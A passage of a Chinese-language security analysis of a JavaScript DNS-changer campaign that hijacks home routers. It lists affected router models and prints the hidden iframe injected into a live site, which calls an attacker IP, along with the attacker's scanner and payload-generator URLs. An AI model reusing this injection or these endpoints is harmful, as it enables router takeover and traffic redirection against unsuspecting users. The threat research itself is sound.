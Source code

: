 以下是已识别受影响的路由器/固件

```
3COM OCR-812  
AP-ROUTER  
D-LINK  
D-LINK DSL-2640T  
D-LINK DSL-2740R  
D-LINK DSL-500  
D-LINK DSL-500G/DSL-502G  
Huawei SmartAX MT880a  
Intelbras WRN240-1  
Kaiomy Router  
MikroTiK Routers  
OIWTECH OIW-2415CPE  
Ralink Routers  
SpeedStream  
SpeedTouch  
Tenda  
TP-LINK TD-W8901G/TD-W8961ND/TD-8816  
TP-LINK TD-W8960N  
TP-LINK TL-WR740N  
TRIZ TZ5500E/VIKING  
VIKING/DSLINK 200 U/E
```

### Js DNSChanger 分析

Js DNSChanger主要通过Java Script编写完成共涉及10个攻击脚本，可以感染6款路由器/固件。它的功能结构主要分为扫描程序，Payload生成器和攻击程序。Js DNSChanger程序一般会注入到一些钓鱼网站代码中，和Pishing Web System协同工作。

我们在 35.236.25.247（网站标题为：Convertidor Youtube Mp3 | Mp3 youtube）首页发现了Js DNSChanger代码。

```
&lt;iframe src="http://193.70.95.89/2021/"  frameborder="0" height="0" scrolling="no" title="no" width="0"&gt;&lt;/iframe&gt;
```

攻击者通过Image()函数对一个预定义的内网IP地址进行端口扫描，如果检测到端口开放会将该内网IP上报给Payload生成器。

```
#扫描程序
http://193.70.95.89/2021/index2.php  
```

Payload生成器会根据路由器IP和Rogue DNS IP生成相应Base64编码的Payload，然后通过Data URI Scheme形式运行相应HTML代码。

```
#Payload生成器
http://193.70.95.89/2021/api.init.php?d=192.168.1.1  
```

攻击程序通过jQuery.ajax构造相应Http请求，对这些路由器Web认证页面进行口令猜解，然后通过相应DNS配置接口篡改路由器默认DNS地址为Rogue DNS Server。

以下是Js DNSChanger部分代码结构：

```
├── api.init.php
├── index.php
└── index2.php
```
